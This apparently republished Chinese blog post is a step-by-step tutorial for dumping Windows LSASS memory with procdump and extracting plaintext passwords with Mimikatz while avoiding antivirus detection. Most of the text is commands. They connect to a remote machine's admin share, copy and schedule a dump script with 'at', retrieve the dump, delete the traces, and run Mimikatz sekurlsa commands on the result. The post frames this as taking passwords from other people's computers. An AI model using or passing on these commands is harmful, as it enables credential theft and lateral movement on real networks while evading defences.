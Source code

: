 # 利用procdump+Mimikatz 绕过杀软获取Windows明文密码

Mimikatz现在已经内置在Metasploit’s  meterpreter里面，我们可以通过meterpreter下载。但是你如果觉得还要考虑杀毒软件，绑定payload之类的东西太过复杂，我们可以有更好的办法，只需要在自己的电脑上运行Mimikatz alpha([地址](http://blog.gentilkiwi.com/mimikatz))版本,然后处理dump的LSASS进程内存文件就行！

那么如何dump LSASS进程内存呢。可以通过以下方式：

**1.对于NT6可以使用windows自带的功能进行dump:**

任务管理器—进程—显示所有用户进程—找到lsass—右键“创建转储文件”

![img](https://img-blog.csdnimg.cn/20181219222000264.png)

![img](https://img-blog.csdnimg.cn/20181219222020980.png)

**2.对于NT5可以使用微软的Procdump工具（这当然不会引起杀软报毒）**

Procdump: http://technet.microsoft.com/en-us/sysinternals/dd996900.aspx

命令如下：

```
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

![img](https://img-blog.csdnimg.cn/2018121922212881.png)

我们运行mimikatz的平台（platform）要与进行dump的系统(source dump)兼容，兼容性如下：

![img](https://img-blog.csdnimg.cn/201812192222067.png)

得到dump后的文件我们就能使用mimikatz获取密码了。我们dump自己的电脑当然没什么意思，下面介绍怎么dump别人的电脑。

首先我们需要能够访问别人的C$（通常只有管理员可以）

```
net use \\TARGETBOX\C$ /user:DOMAIN\Username password
dir \\TARGETBOX\C$
```

如果上述命令好使的话，我们接下来使用AT命令。

```
at \\TARGETBOX
```

接下来我们可以在目标主机上开展工作了。

```
mkdir \\TARGETBOX\C$\Temp
dir \\TARGETBOX\C$\Temp
copy c:\temp\procdump.exe \\TARGETBOX\C$\Temp
copy c:\temp\procdump.bat \\TARGETBOX\C$\Temp
```

procdump.bat中的内容如下

```
@echo off
C:\temp\procdump.exe -accepteula -ma lsass.exe %COMPUTERNAME%_lsass.dmp
```

这里一个技巧就是dump得到的文件名中有“计算机名”，这样可以让我们区分是来dump的文件自哪台电脑。

我们继续。 使用 net time 来获知远程主机上的时间。

```
net time \\TARGETBOX
at \\TARGETBOX 13:52 C:\Temp\procdump.bat
```

复制dump的文件，然后清理痕迹

```
dir \\TARGETBOX\C$\Temp
copy \\TARGETBOX\C$\Temp\*lsass.dmp C:\temp\output\
rmdir /s \\TARGETBOX\C$\Temp
```

之后我们就可以运行我们电脑上的Mimikatz，对得到的.dmp文件进行分析了（注意上文提到的兼容性）。命令如下：

```
mimikatz # sekurlsa::minidump SUPERCOMPUTER_lsass.dmp
Switch to MINIDUMP
mimikatz # sekurlsa::logonPasswords full
```

到此结束！我们得到了远程主机上的密码。